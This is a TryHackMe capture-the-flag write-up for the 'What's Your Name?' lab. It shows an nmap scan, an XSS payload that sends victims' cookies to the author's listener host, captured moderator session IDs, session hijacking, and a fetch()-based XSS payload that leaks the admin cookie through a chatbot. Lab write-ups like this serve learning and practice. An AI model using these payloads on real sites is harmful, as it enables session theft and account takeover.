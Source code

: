 ```yaml
---
title: "TryHackMe - What's Your Name?"
date: 2025-06-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [xss, CSRF, cookie, chat bot ]
--- 
```



This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks.

## Reconnaissance

I started with a full port scan using **nmap** to identify open services on the target machine:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap  -T4 -sV -sC -p- 10.10.26.74 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 06:44 EDT
Nmap scan report for worldwap.thm (10.10.26.74)
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:53:33:5b:68:eb:0b:e0:0a:2a:f0:fa:a3:5e:93:10 (RSA)
|   256 00:87:b6:51:1e:89:b6:30:67:33:36:c2:e6:30:dc:5d (ECDSA)
|_  256 5b:5e:b7:d6:24:3a:0a:d1:c5:cf:37:9a:e5:b9:df:ec (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Scan results : 

- 22/tcp   open  ssh     OpenSSH 8.2p1 (Ubuntu)
- 80/tcp   open  http    Apache httpd 2.4.41
- 8081/tcp open  http    Apache httpd 2.4.41

## Web enumaration

After adding the domain `worldwap.thm` to my `/etc/hosts` file, I visited the website. The main page allowed me to register an account. After successful registration, I saw a message:

> "You'd need to visit login.worldwap.thm to login once you register successfully."

![1](/images/whatsyourname/1.jpg)

I added that subdomain to my hosts file too and navigated to it.

The page was blank at first glance, but checking the source code revealed this comment:


![2](/images/whatsyourname/2.jpg)
So I manually visited http://login.worldwap.thm/login.php and found a login form.

![3](/images/whatsyourname/3.jpg)

Unfortunately, the credentials I created earlier didn’t work.
![3b](/images/whatsyourname/3b.jpg)

## Stealing a Moderator's Cookie via XSS 

Suspecting a vulnerability, I attempted to inject a simple XSS payload by sending an email that contained this script: 

![4](/images/whatsyourname/4.jpg)

```
<script>new Image().src='http://10.23.x.x:1337/log?c='+document.cookie</script>
```
> This script sends the victim’s cookies to my server running on port 1337.

I hosted a listener with Python:

```
sudo python3 -m http.server 80
```


And it worked! I received requests with the following data:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.26.74 - - [20/Jun/2025 07:06:00] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:06:00] "GET /log?c=PHPSESSID=8ss9dd7o48h9821sttmv66vjrh HTTP/1.1" 404 -
10.10.26.74 - - [20/Jun/2025 07:07:01] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:07:01] "GET /log?c=PHPSESSID=7c42qdip0p52292bvpfkh79pop HTTP/1.1" 404 
```

## Using the Stolen Session

I copied one of the stolen PHPSESSID values and injected it into my browser cookies. Then I reloaded http://login.worldwap.thm/login.php and logged in using the default credentials: hacker:hacker.

This time, I was successfully logged in as a moderator.


![5](/images/whatsyourname/5.jpg)
![6](/images/whatsyourname/6.jpg)



## Eploiting the Chat Bot with XSS again

On the moderator page, I noticed a chatbot feature. I tested it for XSS and, unsurprisingly, it was also vulnerable.


![7](/images/whatsyourname/7.jpg)



I sent the following payload to the chatbot:



```
<script>
fetch("/chat.php", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    "body": "message="+document.cookie,
    "method": "POST",
    "mode": "cors"
});
</script>
```

 **What Does This Script Do?**

- fetch(): A modern JavaScript API for making HTTP requests.

- /chat.php: The endpoint used by the chatbot.

- credentials: "include": Ensures the victim's cookies are included in the request.

- body: "message="+document.cookie: Sends the session cookie in the message field.

This trick allowed me to capture the admin's session cookie.

## Admin Access Achieved 

After replacing my browser cookie with the stolen admin session, I refreshed the page and was immediately logged in as the administrator.

![8](/images/whatsyourname/8.jpg)